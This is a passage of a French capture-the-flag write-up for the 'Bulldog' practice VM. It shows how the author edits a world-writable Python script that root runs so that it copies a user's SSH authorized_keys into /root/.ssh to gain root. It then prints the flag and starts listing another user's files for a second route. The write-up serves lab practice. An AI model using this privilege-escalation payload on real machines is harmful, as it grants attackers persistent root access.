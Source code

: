 Hahaha la bonne blague, un fichier world-writable lancé par root :p  

Il y a bien des manières de récupérer l'accès root via l'édition du fichier mais j'ai opté pour la copie du *authorized\_keys* de *django* vers *root*.  

```python
#!/usr/bin/env python

# Just wanted to throw this placeholder here really quick.
# We will put the full AV here when the vendor is done making it.
# - Alan
import os
if not os.path.exists("/root/.ssh"):
        os.system("mkdir /root/.ssh")
        os.system("cp /home/django/.ssh/authorized_keys /root/.ssh/")
```

J'aurais pu utiliser + de la lib standard de Python mais j'ai eu la flemme de regarder dans la doc si *os.mkdir* prend des permissions à la *chmod* ou à la *umask* :D donc *os.system* FTW !  

Il ne nous reste que le fameux flag :  

```shellsession
root@bulldog:~# cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

Nota bene
---------

Je n'ai pas croisé de Mongo ni dans les ports en écoute ni dans les process donc je ne suis pas allé plus loin de ce côté. Quand à l'interface d'admin utilisant Django les droits des utilisateurs sont stockés via une base sqlite3.
Une fois éditée pour rajouter nick en admin on voit que l'interface ne propose rien de plus que la gestion des utilisateurs (donc useless).  

Je n'ai pas fouillé plus loin pour la seconde façon de passer root, si jamais je la croise je mettrais l'article à jour.  

Edit -- fin alternative
-----------------------

Une fois l'accès au compte django obtenu on voit que l'on peut fouiller dans les fichiers de l'utilisateur bulldogadmin :  

```shellsession
django@bulldog:~$ ls /home/bulldogadmin/ -al
total 44
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Oct 19 11:04 .
drwxr-xr-x 4 root         root         4096 Aug 24 18:16 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24 17:39 .bash_logout
-rw-r--r-- 1 bulldogadmin bulldogadmin 3771 Aug 24 17:39 .bashrc
drwx------ 2 bulldogadmin bulldogadmin 4096 Aug 24 17:40 .cache
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 20 19:44 .hiddenadmindirectory
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Aug 24 22:18 .nano
-rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24 17:39 .profile
-rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 24 22:18 .selected_editor
-rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24 17:45 .sudo_as_admin_successful
-rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24 18:20 .wget-hsts

```
